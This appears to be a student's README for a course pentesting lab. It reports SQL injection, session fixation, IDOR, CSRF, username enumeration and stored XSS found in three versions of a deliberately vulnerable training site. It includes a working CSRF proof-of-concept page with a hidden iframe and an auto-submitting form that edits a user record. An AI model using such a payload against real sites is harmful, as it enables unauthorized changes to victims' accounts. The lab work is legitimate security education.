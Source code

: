 # Project 8 - Pentesting Live Targets

Time spent: **20** hours spent in total

> Objective: Find and exploit the security vulnerabilities in three different versions (blue, green, and red) of the Globitek website.

The six possible exploits are:
- Username Enumeration
- Insecure Direct Object Reference
- SQL Injection
- Cross-site Scripting
- Cross-site Request Forgery
- Session Hijacking / Fixation

Each version of the site has been given two of the six vulnerabilities.

## Blue

**Vulnerability 1:** SQL Injection - The id parameter is unsanitized and escapable on the salesperson page.

<img src='https://github.com/brandonmchin/CodePath/blob/master/Week8/Images/week8_sqli.gif' title='SQLI' alt='SQLI' /> 

**Vulnerability 2:** Session Hijacking / Fixation - A new session ID is not regenerated when logging back in.

<img src='https://github.com/brandonmchin/CodePath/blob/master/Week8/Images/week8_sessid.gif' title='SESSID' alt='SESSID' /> 

## Red

**Vulnerability 3:** Insecure Direct Object Reference - Hidden salesperson IDs are accessible.

<img src='https://github.com/brandonmchin/CodePath/blob/master/Week8/Images/week8_idor.gif' title='IDOR' alt='IDOR' /> 

**Vulnerability 4:** Cross-site Request Forgery - CSRF tokens are not used in the edit pages.

<img src='https://github.com/brandonmchin/CodePath/blob/master/Week8/Images/week8_csrf.gif' title='CSRF' alt='CSRF' /> 

CSRF Test Form
```
<!DOCTYPE html>
<html>
<body>

<h1> CSRF TEST </h1>

<!-- iframe holds the redirected page after submittion and is hidden from the unsuspecting victim -->
<iframe width="0" height="0" border="0" name="dummyframe" id="dummyframe"></iframe>

<form name="csrfForm" action="https://35.184.65.92/red/public/staff/users/edit.php?id=4" target="dummyframe" method="POST">
 <input type="hidden" name="first_name" value="CSRF" />
 <input type="hidden" name="last_name" value="Successful" />
</form>
<script>document.csrfForm.submit(); </script>

</body>
</html>
```

## Green

**Vulnerability 5:** Username Enumeration - Error message text becomes unbold if the username does not exist, revealing information to the attacker.

<img src='https://github.com/brandonmchin/CodePath/blob/master/Week8/Images/week8_enum.gif' title='Enumeration' alt='Enumeration' /> 

**Vulnerability 6:** Stored Cross-site Scripting - The "name" and "feedback" fields on the Feedback page are unsanitized. Guests can send malicious messages with embedded web scripts that will trigger once opened. 

<img src='https://github.com/brandonmchin/CodePath/blob/master/Week8/Images/week8_xss.gif' title='XSS' alt='XSS' /> 

GIF created with [SimpleScreenRecorder](http://www.maartenbaert.be/simplescreenrecorder/).

## License

    Copyright 2017 Brandon Chin

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
